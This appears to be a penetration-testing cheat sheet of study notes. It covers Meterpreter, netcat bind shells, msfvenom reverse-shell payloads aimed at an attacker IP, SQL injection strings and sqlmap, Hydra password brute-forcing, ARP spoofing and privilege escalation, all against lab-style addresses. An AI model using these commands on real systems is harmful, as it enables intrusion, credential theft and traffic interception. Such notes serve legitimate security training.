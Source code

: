 ### Meterpreter
- `reverse_tcp` - Will attempt to connect back to our (attacking) machine. (Helps evade FW, if you choose the right port)
- `bind_tcp` - Creates a server-process on the victim machine waiting for us to connect to it. 
- When navigating a Win machine, make sure to escape the `\`, so instead of `cd C:\` it should be: `cd C:\\`
- Popular commands:
  - `route` (IMPORTANT) - Gateway info and routes
  - `getsystem` - Automatic PrivEsc, if possible. Won't work in modern Win machines, use `bypassuac` instead which is a separate exploit (Set session to background, then set bypassuac, afterward attempt getsystem again).
  
### Helpful Commands
- `nmap -sn 10.10.10.22/24 | grep -oP '(?<=Nmap scan report for )[^ ]*'` Clean nmap ping sweep - WARNING: can omit some alive hosts out
- `nc -v 127.0.0.1 8888` will let us contact a listening port on the target address here localhost. This is not to be confused with the listener we typically use in reverse shells `nc nvlp 8888`. The first command is used to call the second command and establish a connection.
- For a simple shell if the target host has nc:
  - On target host: `nc -nvlp 1337 -e /bin/bash` where `-e` executes any command.
  - On our machine: `nc -v 127.0.0.1 1337` of course, instead of localhost, insert the target IP.
- SQLi:
  - `' UNION SELECT null; -- -` - Basic union injection, extra dash to avoid browsers removing trailing space. Of course, keep adding nulls till we get a result.
  - SQLMAP: `sqlmap -u 'http://vuln.site/view.php?id=203' -p id --technique=U` - Enum id parameter and use UNIONs
  - `substring('entry', x, y)` - Used as a boolean if `' or 1=1` or alternatives are blocked where x = index/ position of char, and y = length of entry (1 per word/ entry).
    - This is really used for predicting DB names and enumerating them by hand, instead SQL does all this work for us. 
    - EX: User if user() = root@localhost is signed into the DB, we can check that:
      - `SELECT substring(user(), 1, 1)` Returns `1` if root is signed in
  - `user()` - Tells us current user logged into the DB
- Hydra
  - HTTP-POST login dictionary `hydra crackme.site http-post-form "/login.php:usr=^USER^&pwd=^PASS^:invalid credentials" -L /usr/share/wordlist.txt -P /usr/share/passList.txt -f -V`, where flag `-f` is to stop the attack as soon as we find one successful result,
  - SSH Attack `hydra 10.10.10.222 ssh -L /usr/share/userList.txt -P /usr/share/passList.txt -f -V`
- Port forward: `echo 1 > /proc/sys/net/ipv4/ip_forward`
- Arpspoof: `arpspoof -i <interface> -t <target ip> -r <host ip>`, NOTE: `-t` address is the source ip (often the victim) and the `-r` is the destination ip. In a MiTM, we are between them. 
  - `arpspoof -i eth0 -t 10.10.10.222 -r 10.10.10.240` - Will intercept traffic in that .222-240 range, this is where Wireshark would be of great help. 
- To confirm a blind RCE, you can use a time test out if you really have RCE. Ex: send `sleep+5` and see if the request takes 5 seconds to come back in burp.
- `msfvenom -p linux/x64/shell/reverse_tcp lhost=<Attacker IP> lport=443 -f elf -o 443` - Simple msfvenom reverse shell
- `msfvenom -p php/reverse_php lhost=<Attacker IP> lport=443 -o revShell.php` - Simple php reverse shell, use with metasploit to get meterpreter later on if possible. 
  - `use post/multi/manager/shell_to_meterpreter` - To upgrade from a simple shell 
    